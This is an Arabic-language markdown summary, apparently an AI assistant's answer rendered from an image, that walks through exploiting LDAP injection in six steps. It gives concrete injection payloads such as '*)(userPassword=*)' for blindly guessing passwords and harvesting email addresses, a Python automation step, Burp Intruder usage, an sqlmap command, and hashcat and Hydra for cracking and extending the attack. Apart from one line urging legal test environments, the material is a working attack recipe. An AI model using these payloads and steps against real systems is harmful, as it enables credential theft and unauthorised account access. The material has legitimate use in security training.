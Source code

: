 
## ملخص الأمثلة العملية لكل خطوة
| **الخطوة**                    | **الهدف**                      | **مثال عملي**                                     | **الأدوات**                | **الأوامر/الإجراءات**                                                                          |
| ----------------------------- | ------------------------------ | ------------------------------------------------- | -------------------------- | ---------------------------------------------------------------------------------------------- |
| **1. اكتشاف الثغرة**          | تحديد وجود LDAP Injection      | إدخال `*` في حقل تسجيل الدخول يعيد استجابة مختلفة | Burp Suite                 | `POST /login` مع `username=*&password=anything`                                                |
| **2. الاستغلال الأعمى**       | تخمين كلمة المرور              | تخمين `userPassword=M*` يعيد "Result found"       | Burp Suite Intruder        | `GET /action=dir&search=admin*)(userPassword=M*`                                               |
| **3. اكتشاف الخصائص**         | تحديد خصائص مثل `userPassword` | `*)(userPassword=*)` يعيد رمز 200                 | Burp Suite Repeater        | `POST /login` مع `username=*)(userPassword=*)`                                                 |
| **4. جمع المعلومات**          | استخراج عناوين بريد            | `*)(mail=admin@domain.com)` يعيد "User found"     | Burp Suite Intruder        | `POST /login` مع `username=*)(mail=admin@domain.com)`                                          |
| **5. أتمتة الاختبار**         | أتمتة تخمين `userPassword`     | سكربت Python يستخلص `MYKE`                        | Python                     | `python3 blind_injection.py`                                                                   |
| **6. استغلال `userPassword`** | تأكيد وتوسيع الهجوم            | تسجيل دخول بـ `MYKE`, كسر هاش, اختبار IMAP        | Burp Suite, Hashcat, Hydra | `POST /login` مع `username=administrator&password=MYKE`, `hashcat -m 100 hash.txt rockyou.txt` |

---

## ماذا لو لم تنجح الأمثلة؟
- **تحقق من الحقل**: تأكد أن حقل الإدخال (مثل `username` أو `search`) يتفاعل مع LDAP.
  - مثال: جرب `?search=*` إذا فشل حقل تسجيل الدخول.
- **تحقق من الاستجابات**: إذا كانت الاستجابات غامضة، قارن طول الاستجابة أو الوقت.
  - مثال: في Burp Suite، راجع `Length` في Intruder.
- **جرب مدخلات أخرى**: إذا فشل `*`, جرب `admin)` أو `)(`.
  - مثال: `username=admin)` في Repeater.
- **استخدم أدوات بديلة**: إذا فشل السكربت، استخدم Burp Intruder أو أدوات مثل sqlmap (مع ملحقات LDAP).
  - مثال: `sqlmap -u "http://example.com?action=dir&search=*" --ldap`.

---

## ملاحظات نهائية
- **الهدف**: استغلال ثغرة LDAP Injection عبر الخطوات الست لاستخراج بيانات حساسة مثل كلمات المرور.
- **الأدوات**: Burp Suite للاختبار اليدوي والجزئي، Python للأتمتة، Hashcat/Hydra لتوسيع الهجوم.
- **الأمثلة**:
  - اكتشاف الثغرة باستخدام `*`.
  - الاستغلال الأعمى لتخمين `MYKE`.
  - اكتشاف خصائص مثل `userPassword`.
  - جمع عناوين بريد مثل `admin@domain.com`.
  - أتمتة التخمين بسكربت Python.
  - تأكيد `MYKE` وتوسيع الهجوم عبر IMAP أو LDAP.
- **الفحص**: تحقق من الاستجابات في كل خطوة (رمز الحالة، النص، الطول).
- **الأمان**: اختبر فقط في بيئات قانونية لتجنب المشكلات القانونية.

إذا كنت بحاجة إلى تفاصيل إضافية حول خطوة معينة، تطبيق مثال على موقع معين، أو مساعدة في إعداد الأدوات، أخبرني وسأساعدك!